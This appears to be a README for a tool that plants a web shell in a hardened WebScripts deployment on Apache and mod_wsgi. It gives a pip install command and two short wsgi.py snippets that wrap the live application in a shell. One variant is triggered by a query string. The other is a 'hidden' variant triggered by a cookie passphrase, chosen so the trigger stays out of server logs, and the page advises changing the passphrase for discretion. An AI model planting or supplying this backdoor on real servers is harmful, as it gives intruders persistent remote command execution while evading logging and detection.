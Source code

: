 # WebScripts WebShell

## Description

Install a WebShell on hardened and deployed WebScripts (using Apache and mod_wsgi).

[![WebShell on WebScripts - Youtube]()]()

*WebShell on WebScripts - Youtube*

## Steps

### Install

Install requirements in virtualenv:
```bash
pip install PyWCGIshell
```

### Write code

Add 4 lines to the end of the `wsgi.py` file.

#### Default WebShell

```python
from PyWCGIshell import WebShell
webshell = WebShell(type_="wsgi")
webshell.standard_page = application
application = webshell.run
```

 - To use the WebShell add `?$HELL` to the end of the URL
 - The `$HELL` in the query string is visible in the logs, i do not recommend using the default WebShell configuration.

#### Hidden WebShell

```python
from PyWCGIshell import WebShell
webshell = WebShell(type_="wsgi", passphrase="azerty", pass_type="header_value")
webshell.standard_page = application
application = webshell.run
```

 - To use the WebShell add `azerty` in a header value (for example in a cookie, in the javascript console: `document.cookie="azerty"`) and reload the page
 - The value of the cookie is not visible in the logs
 - You should change the passphrase for more discretion
